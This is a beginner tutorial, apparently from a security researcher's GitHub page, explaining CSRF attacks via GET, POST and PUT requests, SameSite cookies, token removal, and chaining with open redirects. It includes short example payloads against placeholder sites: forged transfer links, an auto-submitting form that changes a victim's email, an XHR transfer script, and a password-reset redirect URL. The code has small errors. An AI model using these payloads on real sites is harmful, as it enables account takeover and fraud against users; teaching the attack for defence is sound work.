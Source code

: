 ![CSRF1](https://github.com/user-attachments/assets/74bc82cd-e65e-4a5a-a10d-51dfbb88fc42)

Usually, a CSRF attack involves state change requests because the hacker does not receive information. Deleting a record, changing a password, buying a product or sending a message are some examples of these requests. A hacker usually uses social engineering to send a link to a user’s email or chat. After the user clicks on the link, the commands set by the hacker will be executed. For example, if the link is clicked, the hacker can transfer the balance of an account or prevent the user from re-entering the user area by changing the email address.

H**ow does Cross Site Request Forgery work?** No unpredictable request parameters — the attacker can guess or know all the parameters the application expects from this type of request, like amount,accountNumber,user_id,…

A CSRF attack can use either a GET request or a POST request, although a POST request is more complex and therefore less common, **So, right here, you noticed the first sign of the existence of the CSRF**, and wherever you saw an important request to change the password or transfer money or any other important request was being sent with the GET method, we can give the possibility of a CSRF vulnerability.

The most important step in CSRF attacks is tricking the user into sending status change requests during login. In fact, the attacker’s goal is to force an authenticated user to send a malicious request to a web site or application without their knowledge. These requests can include cookies, URL parameters, and other types of data that appear normal to a user.

**Other importnat point is cookies policy**, cookies should be used in applications that have a weak Same Site cookie policy. SameSite determines when and how cookies are enabled. Cookies will often be stored anonymously and automatically in browsers.  
If SameSite is set to **strict**, no cookie is shared when the user navigates between sites to prevent CSRF attacks. If SameSite is set to **none**, cookies will be available on all sites. This makes your application vulnerable to CSRF attacks.

## Attack Scenario
**3–1 GET method:** Imagine that your bank (bank.com) processes transfers using GET requests that contain several parameters (the identity of the recipient of the transfer and the amount of your transfer).

For example, if the user wants to send someone 100$, the request may be as follows:

```
http://bank.com/transfer?recipient=Atosa&amount=100
```

Now, a very smart user might be persuaded to click on a link that looks like this (but shortened by URL or linked directly):

```
http://bank.com/transfer?recipient=Attacker&amount=100000
```

That we use this example in real world:

```html
<a href="https://example.com/transfer?amount=500&accountNumber=100852">Click here to get more information</a>.
```

**2–3 POST method:** If a bank only uses POST requests instead of GET requests, the other hyperlinks used in the GET example will not respond. Therefore, to have a CSRF attack, the hacker must create an HTML form.

The POST request requires a cookie to authenticate the user, the amount to be paid, and the destination account.

The attacker must add a real cookie to his fake request to force the server to process the transfer. They can do this by using a seemingly harmless link to redirect the user to a new page similar to the one below.

```html
<form action="https://example.com/email/change" method="POST">  
<input type="hidden" name="email" value="hacker@email.com"/>  
</form>  
<script>  
document.forms[0].submit  
</script>
```

Account information are set in the form above. When an authenticated user visits the page, the browser adds a session cookie before sending the request to the server. Finally, the server will change email easy.

**3–3 PUT method:** Using the PUT method and scenario rarely happens, but knowing this method does not harm.

Think for transfer money we have this request :

```http
PUT http://bank.com/transfer.do HTTP/1.1  
...  
{ "acct":"user", "amount":100 }
```

At the first we know to those request use json and have authenticate by cookie … and just need send fake request front user by XHR bad code or **XmlHttpRequest** :

```js
<script>  
function put() {  
var x = new XMLHttpRequest();  
x.open("PUT","http://bank.com/transfer.do",true);  
x.setRequestHeader("Content-Type", "application/json");  
x.send(JSON.stringify({"acct":"attacker", "amount":100}));   
}  
</script>  
<body onload="put()">
```

## Note :
**2-1 Content type:** In content type we must have this headers for CSRF attack :

```http
application/x-www-form-urlencoded  
multipart/form-data  
text/plain
```

Also in **storage(inspect)** part must see content type = **none** or **lak** and if see other too must delete that and test again.

**2–2 CSRF Token** 
1. Reload site and check source of page and search about find CSRF token.  
2. Delete CSRF token

## Multi Attack
1. We can use CORS bug for arrive to CSRF bug !!  
2. We can use web cache bug for arrive CSRF bug too !!  
3. We can use Open-redirect bug for arrive CSRF bug too!!  
4. We can use XSS(Stored) bug for arrive CSRF bug too!!  
_Because the purpose of this article is for beginners and intermediate people, explaining complex examples is avoided and we only give examples about open redirect because it is easier to understand:_

![DOS   DDOS ATTACK](https://github.com/user-attachments/assets/c8a69a9e-9ce6-49da-a292-5d2ffc4a0650)

**Open-redirect — CSRF**
We have a site with this URL:
```
https://example.com/?redirect_to=https://example2.com
```

When we find some parameter like `redirect_to,URL,…`, we can easily test the Open_Redirect payloads and if there is Open_Redirect vulnerability, we can also try to reach the CSRF:
```
http://example.com/?redirect_to=https://vulnerable.com/panel/change_pass?pass=123456
```

And when victor click on this url we change password to 123456 easy by Open-redirect + CSRF bug !!!

GitHub: [https://github.com/abolfazlvaziri](https://github.com/abolfazlvaziri)  
Instagram: [https://instagram.com/abolfazlvaziriofficial](https://instagram.com/abolfazlvaziriofficial)  
Telegram Channel: [https://t.me/AVN_COMMUNITY](https://t.me/AVN_COMMUNITY)  
YouTube: [https://www.youtube.com/@abolfazlvaziri](https://www.youtube.com/@abolfazlvaziri)


